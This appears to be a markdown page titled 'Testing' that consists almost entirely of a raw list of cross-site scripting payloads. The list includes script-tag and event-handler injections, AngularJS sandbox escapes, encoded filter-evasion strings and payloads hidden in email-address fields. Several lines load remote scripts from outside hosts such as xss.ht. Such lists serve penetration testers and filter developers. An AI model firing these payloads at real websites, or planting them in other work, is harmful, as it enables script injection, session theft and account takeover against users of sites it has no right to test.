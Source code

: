 # Testing

<style>
.test{
   color:red;
}

"/>&lt;script>alert(1)&lt;/script>"/>

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\u002ex)alert(window\u002ex=1)')+eval(y)+\"'");}}}}

<script>alert(1)%0d%0a-->%09</script

' accesskey=X onclick=alert(1) '

' onmouseover=alert() '

<img src=x onmouseover=confirm()>

‘%uff1cscript%uff1ealert(‘XSS’);%uff1c/script%uff1e’
#<img src=x onerror=alert(0)>

&lt;script&gt;alert(&#x27;xss&#x27;);&lt;/script&gt;

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

'"; alert("XSS attack!"); //';

<img src=x onerror=alert(1)>
'-alert(1)-';"-alert(2)-"//"><svg/onload=alert(3)>
<img src=totallyfake onerror=alert(1);//
<img src=x onerror=import(‘//domain.com/‘);//
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//ChiragXSS.xSs.ht></scripT>


“><svg/onload=confirm(1)>”@gmail.com
<svg onload=location='javascript:alert(1)'>
"<script>alert(1)</script>"@gmail.com
"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
'"></title></textarea></script></style></noscript><script src=abc.xss.ht></script>

test+(<script>alert(1)</script>)@gmail.com
"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>
"><svg+svg+svg\/\/On+OnLoAd=confirm(1)>



